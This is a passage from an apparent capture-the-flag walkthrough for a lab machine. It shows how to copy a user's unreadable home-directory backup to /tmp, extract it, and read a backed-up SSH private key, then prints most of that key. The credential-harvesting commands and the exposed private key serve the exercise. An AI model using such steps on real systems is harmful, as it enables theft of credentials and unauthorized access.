 4. There is a user called `ansible`. Let's see what we can find in this user home directory: 

```bash
cd /home/ansible
ls
```

5. Here we see the `flag2.txt` file and a `backup.tar.gz` file. Upon trying to read the `flag2.txt` we get permission denied: 

```bash
cat /home/ansible/flag2.txt
```

6. If you try to extract the files inside the `backup.tar.gz` file, you will notice you also get permissions denied. However, you can copy this file to a directory where you have read/write permissions such as `/tmp`:

```bash
cp /home/ansible/backup.tar.gz /tmp
```

7. Now we can head to the `/tmp` directory and unzip it here: 

```bash
cd /tmp
tar -xzvf backup.tar.gz 
```

You will notice there's a new `ansible/` directory on the `tmp/` directory. This means this was a be a backup of the home directory. 

8. Enter the `ansible` directory and see its contents, including hidden files: 

```bash
cd /tmp/ansible
ls -la
```

Good news is that we might be able to grab the private ssh key since we have a backup of the `.ssh/` directory. 

9. Let's read and copy the `id_rsa` file:

```bash
cat /tmp/ansible/.ssh/id_rsa
```

Here are the contents of the `id_rsa` file: 

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEArD4S5hYJwI4IHl3wZAB4oXG/x8Bun6yf3bb9t9bPifGT91IrWGao
ahsrZ9CaUsKLNRYkwy0z6hQyrJSuGvU0P29tH4xSdqYHp8IoX8Vm01EG1OqpLOKLhXJYaH
MA5owp8nZoxnf9J3/5dKn4ZxCaIUkr8Al0pjQCIMjWoFcYqLlcFvgMBJV4p/WTWWXVLALM
xv25QTzOyMigvmago7An57M7/CdAkPwJa1k/Xf3ysv8IAaAkwwR9MvL+WbcUVYilW8UrUW
VL4eEbooDb3UP2k8lYU5qJMesyFmqofdKzHaXxJRA6T+j+EDqxZLWwf8zFWIFDfxNiCnAK
YOWBEUspf2qIJze+yV8SPyIV1Gj6PwYQmYFnBBMLupWtydKdJNKXVDSc1Q0s7nmTi4lbQy
IqQS4o/KXOG8fsPp1sD5+xrSuiETAslnCG1+ygjp0lQq6DUIU6dN6kMZ9u5CfTuAyZ05N7
N11cSmUWpgA5j5DSWg7LEc/YwU5CqEjdtk8iEum/AAAFoAfhnu0H4Z7tAAAAB3NzaC1yc2
EAAAGBAKw+EuYWCcCOCB5d8GQAeKFxv8fAbp+sn922/bfWz4nxk/dSK1hmqGobK2fQmlLC
izUWJMMtM+oUMqyUrhr1ND9vbR+MUnamB6fCKF/FZtNRBtTqqSzii4VyWGhzAOaMKfJ2aM
Z3/Sd/+XSp+GcQmiFJK/AJdKY0AiDI1qBXGKi5XBb4DASVeKf1k1ll1SwCzMb9uUE8zsjI
oL5moKOwJ+ezO/wnQJD8CWtZP1398rL/CAGgJMMEfTLy/lm3FFWIpVvFK1FlS+HhG6KA29
1D9pPJWFOaiTHrMhZqqH3Ssx2l8SUQOk/o/hA6sWS1sH/MxViBQ38TYgpwCmDlgRFLKX9q
iCc3vslfEj8iFdRo+j8GEJmBZwQTC7qVrcnSnSTSl1Q0nNUNLO55k4uJW0MiKkEuKPylzh
vH7D6dbA+fsa0rohEwLJZwhtfsoI6dJUKug1CFOnTepDGfbuQn07gMmdOTezddXEplFqYA
OY+Q0loOyxHP2MFOQqhI3bZPIhLpvwAAAAMBAAEAAAGAQsFsIbC45uAlVV+jI57rIecsJQ
b32PrWmt+pRe8DULtIVbqLAiAHddhB4mJ+7URpH5INfXevfzGE0k5tjBUswsk0yd1guItw
vBwL+dJQH+Zvd2XbW4ISAQ5oJVMtLi10tHwf74vhmcWHsSePFqLgmbX6SXXgt+nASWSNim
c3L21nu583SS+FK9OJ4EQPcpdDNnxvqFEg88COTD0KVWaYkLxuqzOrWoXUQL6+SHd78NPX
Doo6tTqwK2byHWNPhjcG+7ZcEmRHei1r27R8TXN7kfMSG+8aUjRHKn7k+PTdPe95eNjCdA
```